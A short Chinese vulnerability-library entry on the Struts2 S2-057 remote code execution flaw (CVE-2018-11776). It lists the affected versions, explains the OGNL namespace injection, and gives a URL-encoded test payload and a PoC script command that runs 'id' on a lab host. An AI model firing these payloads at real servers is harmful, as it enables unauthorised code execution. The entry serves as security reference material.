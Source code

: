 ```yaml
---
title: 'Struts2 S2-057 远程代码执行漏洞(CVE-2018-11776)'
date: Mon, 05 Oct 2020 08:24:14 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 影响环境

Struts <= Struts 2.3.34, Struts 2.5.16

#### 利用

S2-057要求具备以下条件: action元素没有设置名称空间属性，或者使用了通配符 名称空间将由用户从uri传递并解析为OGNL表达式，最终导致远程代码执行漏洞。 Payload:```
http://your-ip:8080/%24%7b%31%2b%31%7d/actionChain1.action 

![](Struts2%20S2-057%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E(CVE-2018-11776)/20200630143132425.png) 



可以看到算出了1+1=2的结果 参考POC ：https://github.com/Fnzer0/S2-057-poc
python 1.py -u http://192.168.111.129:8080/{{INJECTION_POINT}}/actionChain1.action -p S2-057-2 -c id --exp 

![](Struts2%20S2-057%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E(CVE-2018-11776)/2020063014315669.png) 

发现执行了id命令

